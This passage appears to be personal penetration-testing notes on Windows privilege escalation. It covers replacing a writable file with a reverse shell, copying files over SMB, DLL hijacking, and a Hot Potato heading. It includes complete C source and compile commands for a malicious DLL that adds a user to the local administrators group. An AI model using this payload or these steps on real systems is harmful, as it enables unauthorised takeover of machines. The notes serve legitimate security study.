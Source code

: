 ![image](https://github.com/user-attachments/assets/f57d8100-6e70-4949-9bc4-1a9dd3d8a7d0)

- We have write access to the file,I exploited it by copying a revshell to replace it.

---------------

### Copying files to the attack machine

- Use

`copy <file> \\<ip>\<share>`

![image](https://github.com/user-attachments/assets/54e50dd4-507b-49c2-a60a-3a17484183ac)


### DLL Hijacking

- Open `Process Monitor` and check for a program missing a dll
- Create a malicious dll with `x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme2.dll`

 ![image](https://github.com/user-attachments/assets/84c362fa-f3fa-47ab-9f39-a47c1dedc4a8)


- Copy the malicious dll to the location.

![image](https://github.com/user-attachments/assets/0e864d2f-9c76-4609-929a-2fedb9636b86)

- Then,use `sc` to start the service with `sc start <service>`.You can stop a service with `sc stop <service>`.

![image](https://github.com/user-attachments/assets/ee609183-86c9-4828-90db-0871fb1ddedb)

- Malicious code for the dll

```c
// For x64 compile with: x86_64-w64-mingw32-gcc windows_dll.c -shared -o output.dll
// For x86 compile with: i686-w64-mingw32-gcc windows_dll.c -shared -o output.dll

#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("cmd.exe /k net localgroup administrators user /add");
        ExitProcess(0);
    }
    return TRUE;
}
```
-------------------------

### Hot Potato exploitation for windows 7

![image](https://github.com/user-attachments/assets/25885a6e-ee43-4254-bd61-ca3e95858c89)
